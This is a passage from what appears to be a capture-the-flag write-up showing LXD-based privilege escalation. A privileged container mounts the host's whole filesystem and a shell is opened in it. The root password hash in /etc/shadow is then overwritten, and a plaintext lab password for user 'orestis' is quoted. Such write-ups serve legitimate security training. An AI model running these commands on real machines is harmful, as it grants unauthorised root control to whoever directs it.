 	# Initialize/start a container from that image
	lxc init privesc privesc-container -c security.privileged=true

	# Mount entire file system to the mnt of the container
	lxc config device add privesc-container mydevice disk source=/ path=/mnt/root recursive=true

	# Start the container
	lxc start privesc-container

	# Execute the container and get an interactive shell
	lxc exec privesc-container /bin/sh
	```
	![]({{ page.img_path }}Pasted%20image%2020220819052441.png)
4. To obtain root, replace root hash w/ `orestis`'s 
	```
	vi /mnt/root/etc/shadow
	```
	![]({{ page.img_path }}Pasted%20image%2020220819060640.png)
5. Switch to root w/ `orestis`'s password `kHGuERB29DNiNE`
	![]({{ page.img_path }}Pasted%20image%2020220819060751.png)